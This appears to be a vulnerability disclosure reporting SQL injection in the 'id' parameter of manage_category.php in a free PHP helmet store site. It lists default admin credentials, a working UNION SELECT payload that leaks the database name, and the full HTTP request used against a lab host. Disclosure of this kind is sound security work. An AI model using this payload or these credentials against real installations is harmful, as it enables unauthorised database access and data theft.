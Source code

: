 # Helmet Store Showroom Site v1.0 by oretnom23 has SQL injection

BUG_Author: HMHYHM

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /hss/admin/categories/manage_category.php?id=

Vulnerability location: /hss/admin/categories/manage_category.php?id=,id

dbname =hss_db,length=6

[+] Payload: /hss/admin/categories/manage_category.php?id=-5%27%20union%20select%201,database(),3,4,5,6--+ // Leak place ---> id


```sql
GET /hss/admin/categories/manage_category.php?id=-5%27%20union%20select%201,database(),3,4,5,6--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=29mcgvmjo6mqsepd64ra2rlt4v
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/204069772-8c45c7a1-2045-40f5-908d-2a314d61df38.png)
